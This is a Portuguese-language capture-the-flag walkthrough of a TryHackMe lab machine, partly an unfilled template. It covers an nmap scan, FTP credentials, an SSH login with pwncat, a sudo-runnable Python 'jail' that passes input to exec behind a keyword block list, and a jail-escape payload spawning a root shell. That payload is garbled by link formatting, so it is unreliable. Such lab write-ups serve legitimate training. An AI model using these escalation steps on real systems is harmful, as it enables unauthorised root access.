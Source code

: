 ```yaml
---
title: Plataforma - Nome Modelo
author: mithr4nd1r
date: 2022-11-29 00:00:00 -0300
categories: [Walkthrough, Plataforma]
tags: [writeup, walkthrough, tryhackme, thm, tutorial, hacking, pentest, ctf, capture, flag, linux, medium, médio]
mermaid: true
image: https://pm1.narvii.com/6423/6ceaa4749eeb98d7ac41c7b1eead16646c7857be_00.jpg
    width: 255   # in pixels
    height: 126   # in pixels
pin: true
---
```


Dificuldade | Opinião | 📅 Início | 📅 Conclusão
:--:|:--:|:--:|:--:
![](/assets/img/nivel/button_facil.png) | ![](/assets/img/nivel/button_medio.png) | 16 de Dezembro de 2022 | 16 de Dezembro de 2022


## Escaneamento

Iniciamos nosso escaneamento como sempre, varrendo todas as portas, verificando as versões e realizando alguns testes rápidos de scripts.
- Comando: `nmap -sSV -A -v -Pn -p- --min-rate=10000 10.10.208.57`

```console
{nmap scan}
```

## Enumeração

Partindo para enumeração verificamos o serviço ....
### FTP (21) - Versão: vsftpd 3.0.3

- Comando: `ftp 10.10.208.57`
```console
{resultado do comando}
```

Encontramos credenciais que podem ser úteis:
> `backup@spookysec.local`:`backup2517860`
{: .prompt-info }

Podemos observar que ... então a partir desse dado encontramos o ponto de entrada


## Exploração (Acesso Inicial)

Para conseguir o acesso inicial seguimos na linha de raciocínio de utilizar tal exploit em tal serviço..

- Comando: `pwncat-cs ssh://kamishiro@10.10.208.57`
```console
01:55:24 root@m1thr4d1r tokyoghoul → pwncat-cs ssh://kamishiro@10.10.208.57
/root/.local/pipx/venvs/pwncat-cs/lib/python3.10/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[13:56:45] Welcome to pwncat 🐈!                                        __main__.py:164
Password: ***********
[13:57:16] 10.10.208.57:22: registered new host w/ db                    manager.py:957
(local) pwncat$                                                                        
(remote) kamishiro@vagrant:/home/kamishiro$ id
uid=1001(kamishiro) gid=1001(kamishiro) groups=1001(kamishiro)
```

## Pós-Exploração (Escaneamento Interno)

Com o acesso interno realiza-se uma enumeração interna utilizando ...
- Comando: `sudo -l`
```console
[sudo] password for kamishiro: 
Matching Defaults entries for kamishiro on vagrant.vm:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```

```python3
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

## Escalação de Privilégio

Sabemos que temos de alguma forma bypassar a restrição de palavras do script para escalar privilégio, assim pesquisei no google por "python jail escape" e encontrei uma possível solução...
[Escaping Python Jails](https://anee.me/escaping-python-jails-849c65cf306e)

- Comandos: `sudo /usr/bin/python3 /home/kamishiro/jail.py`

```python3
**__builtins__**.__**dict__**['__**IMPORT__**'.lower()](https://www.notion.so/'OS'.lower()).__**dict__**['SYSTEM'.lower()]('/bin/bash -p')
```

![Untitled](https://mithr4nd1r.github.io/assets/img/tryhackme/tokyoghoul/Untitled9.png)